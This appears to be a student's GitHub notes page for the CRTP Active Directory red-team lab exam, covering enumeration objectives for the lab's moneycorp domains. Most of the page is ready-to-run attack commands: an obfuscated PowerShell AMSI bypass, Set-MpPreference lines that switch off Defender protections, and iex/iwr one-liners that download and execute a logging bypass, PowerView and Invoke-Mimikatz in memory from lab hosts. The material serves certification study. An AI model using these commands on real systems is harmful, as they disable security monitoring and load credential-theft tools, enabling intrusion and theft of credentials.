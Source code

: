 # CRTP One Week Challenge
#Main Notes
### Things to keep in mind during the exam
```
#Learing Objective 1
Enumerate Users
Enumerate Computers
Enumerate Domain Administrator
Enumerate Enterprise Administrator

#Learing Objective 2
List all the OUs
List all the computers in the StudentMachines OU
List the GPOs
Enumerate GPO applied on the StudentMachines OU

#Learing Objective 3
Enumerate ACL for the Domain Admins group
Enumerate all modified rights/permissions for the students

#Learing Objective 4
Enumerate all domains in the moneycorp.lcoal forest
Map the trusts of the dollarcorp.moneycorp.lcoal domain
Map external trusts in moneycorp.localforest
Identify external trusts of dollarcorp domain

#Learing Objective 5
elevate privilege to local administrator
Identify a machine in the domain where you have local administrative access
Using privileges of a user get DC

#Learing Objective 6
use BloodHound to identify the shortest path to Domain Admins in the dollarcorp admin
```
### Load InviShell to avoid any enhanced login locally
```
C:/AD/Tools/InviShell/RunWithRegistryNonAdmin.bat
```
### Bypass Script Block login
```
iex (iwr http://10.0.10.16/sbloggingbypass.txt-UseBasicParsing)
```
### Bypass AMSI
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Bypass Real-Time Monitoring
```
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
PowerShell set-MpPreference -DisableAutoExclusions $true
```
### Load Script in memory to bypass Windows Defender
```
iex (iwr http://172.16.100.7:9090/PowerView.ps1 -UseBasicParsing)
iex (iwr http://172.16.100.7:9090/Invoke-Mimikatz.ps1 -UseBasicParsing)
```